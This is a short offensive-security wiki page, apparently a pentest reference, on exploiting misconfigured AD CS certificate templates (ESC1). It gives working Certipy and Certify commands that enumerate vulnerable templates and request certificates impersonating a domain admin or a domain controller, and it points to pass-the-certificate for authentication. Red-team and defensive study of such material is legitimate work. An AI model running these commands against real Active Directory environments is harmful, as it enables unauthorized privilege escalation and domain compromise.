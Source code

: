 # (ESC1) Template allows SAN 

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios. 

Once a vulnerable template is found, a request shall be made to obtain a certificate.
```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

> [!WARNING]
> The `$ADCS_HOST` target must be a FQDN (not an IP).

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

From Windows systems, the [Certify](https://github.com/GhostPack/Certify)tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate.